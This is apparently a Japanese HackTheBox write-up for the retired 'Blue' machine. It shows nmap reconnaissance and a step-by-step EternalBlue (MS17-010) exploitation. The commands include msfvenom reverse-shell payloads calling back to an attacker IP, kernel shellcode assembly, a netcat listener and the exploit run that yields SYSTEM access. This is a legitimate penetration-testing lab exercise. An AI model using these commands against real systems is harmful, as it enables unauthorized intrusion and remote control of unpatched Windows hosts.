 ```yaml
---
title: 【Easy/Windows】Blue Writeup(HackTheBox)
date: "2022-07-27"
template: "post"
draft: false
slug: "hackthebox-windows-blue"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Blue」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-27-hackthebox-windows-blue/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Blue」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [エクスプロイト](#エクスプロイト)

## 探索

まずはいつも通りクイックスキャンをかけていきます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.40  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-27T11:37:27
|_  start_date: 2022-07-27T11:34:22
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-27T12:37:26+01:00
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 1s
```

WindowsのRemote Procedure Call関連のポートがいくつか空いているようです。

`Windows 7 Professional 7601 Service Pack 1`のプラットフォームでSMBのポートが開いているのでEternalBlueが刺さりそうです。

## エクスプロイト

[GitHub - worawit/MS17-010: MS17-010](https://github.com/worawit/MS17-010)より取得した`checker.py`を使ってみたところ、どのパイプ名も使用できないようでした。

``` bash
$ python eternalchecker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

同じくここで取得した`eternalblue_exploit7.py`に作成したペイロードを与えて実行したものの、シェルの取得にはいたりませんでした。

``` bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 > shellcode
$ python exploit.py 10.10.10.40 shellcode 
shellcode size: 324
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

パイプの名前が見つからなさそうなので、他のエクスプロイトを探索します。

``` bash
$ searchsploit eternal
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Eternal Lines Web Server 1.0 - Remote Denial of Service                                  | multiple/dos/25075.pl
EternalMart Guestbook 1.10 - '/admin/auth.php' Remote File Inclusion                     | php/webapps/2980.txt
EternalMart Mailing List Manager 1.32 - Remote File Inclusion                            | php/webapps/23218.txt
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code  | windows/remote/43970.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)         | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Executio | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-01 | windows_x86-64/remote/42030.py
----------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

そこで、`MS17-010/eternalblue_exploit7.py`を使っていくことにしました。

``` bash
git clone https://github.com/worawit/MS17-010

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x64 --format raw -o sc_x64_payload.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin

nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.14.2 --platform windows -a x86 --format raw -o sc_x86_payload.bin
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin

python2.7 MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

ifconfig tun0 mtu 1400
sudo nc -nlvp 443
python MS17-010/eternalblue_exploit7.py 10.10.10.40 sc_all.bin
```

実際のエクスプロイト手順は以下を参考にしました。

何故かペイロードのポートを4444にしたらうまくシェルが取れませんでしたが、443にしたらうまくいきました（なぜ？）

参考：[MS17-010 EternalBlue Manual Exploitation | root4loot](https://root4loot.com/post/eternalblue_manual_exploit/)

![image-20220728204938531](../../static/media/2022-07-27-hackthebox-windows-blue/image-20220728204938531.png)

とりあえずSystem権限でとれたのでフィニッシュ。





